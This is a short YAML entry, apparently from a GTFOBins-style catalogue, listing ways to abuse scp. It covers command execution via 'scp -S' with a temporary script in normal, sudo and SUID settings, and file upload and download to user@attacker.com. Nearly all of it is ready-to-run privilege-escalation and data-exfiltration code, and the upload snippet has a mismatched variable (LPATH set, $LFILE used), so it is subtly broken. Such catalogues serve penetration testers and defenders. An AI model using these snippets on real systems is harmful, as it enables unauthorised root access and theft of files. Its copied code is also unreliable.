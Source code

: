 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        scp -S $TF x y:
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        sudo scp -S $TF x y:
  suid-limited:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        ./scp -S $TF a b:
  upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=file_to_save
        scp $RPATH $LFILE
---
```

